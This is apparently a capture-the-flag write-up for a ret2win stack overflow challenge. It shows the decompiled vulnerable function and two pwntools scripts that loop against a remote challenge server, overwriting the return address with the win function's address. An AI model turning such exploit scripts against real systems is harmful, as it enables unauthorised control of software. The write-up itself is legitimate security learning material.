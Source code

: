 # Pwn 1
## techique: ret2win

First, I receive 3 files relative with challenge: 
* chall (elf file)
* libc.so.6
* ld-2.35.so

After, i patched it to chall_patched file. Let's checksec --> overview --> debug this file.<br>
[picture1](./pic/pic1.png)

### vuln() function
```c
ssize_t vuln()
{
  ssize_t result; // rax
  char buf[40]; // [rsp+0h] [rbp-20h] BYREF

  printf("Input: ");
  result = read(0, buf, 0x20uLL);
  buf[32] = 0;
  return result;
}
```
Nothing special, I can not exploit if I don't see this part:<br>
[picture2](./pic/pic2.png)

After ask author time, I got the answer that it is random :v. If you lucky, you will have stack address have 1 byte **`\x00`** in last address in your buffer(inputed) (like the picture above 😂).<br>

I have a payload to solve this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"]) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Did you try this payload?<br> 
You have been **Segment fault...** 😁<br>
But I tried this payload too, so SAD...
Here is true payload for this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
ret = 0x000000000040101a
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"] + 8) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Detail a little, This payload will return to **`<win + 8>`** address to avoid **`Segment fault`** for **`ELF-64 bits`**. Length this payload equal **`32`** follow this challenge and I multiple with **`4`** to increase the possibility of success <br>
Oke done.

[picture3](./pic/pic3.png)